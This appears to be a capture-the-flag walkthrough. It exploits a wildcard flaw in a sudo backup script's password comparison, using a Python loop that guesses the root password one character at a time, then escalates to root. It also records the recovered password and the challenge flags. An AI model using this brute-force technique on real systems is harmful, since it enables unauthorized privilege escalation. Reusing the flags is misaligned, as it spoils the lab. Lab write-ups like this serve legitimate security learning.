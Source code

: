 1. So I was sort of on the right track, the vulnerability definitely is in the backup script. However it has nothing to do with injecting code, but rather the password comparison. So we can technically write a python script to piece out the password character by character

## RESUME PROGRESS AFTER HELP

1. VULNERABILITY
   1. So we know the vulnerability comes from the password comparison. Since we can leverage a wildcard (ie. *) and see if it returns "password confirmed!"
2. APPROACH
   1. We will pass through a list of all characters & numbers with the wildcard symbol and check our output for the "Password Confirmed!" response, if so we will append that character to our known list of characters. We repeat the process until all characters are found
3. SCRIPT
   1. Lets build this in python

   ```py
      import string
      import subprocess

      discovered_chars = ""
      all_chars = list(string.ascii_letters + string.digits)

      found_password = False

      while not found_password:
         for char in all_chars:
            command = f"echo '{discovered_chars}{char}'* | sudo /opt/scripts/mysql-backup.sh"
            response = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

            if "Password confirmed!" in response:
               discovered_chars += char
               print(discovered_chars)
               break
            
         else:
            found_password = True
   ```

   1. FOUND PASSWORD: "kljh12k3jhaskjh12kjh3"
4. ESCALATE
   1. Now we have the root password so lets switch users
      1. > su
      2. > cat /root/root.txt
         1. FLAG: `608a7bbb3d383312b4482fa55fdf0028`

## QUESTIONS

1. Submit user flag
   1. `27e908a08327511267902c299778962a`
2. Submit root flag
   1. `608a7bbb3d383312b4482fa55fdf0028`
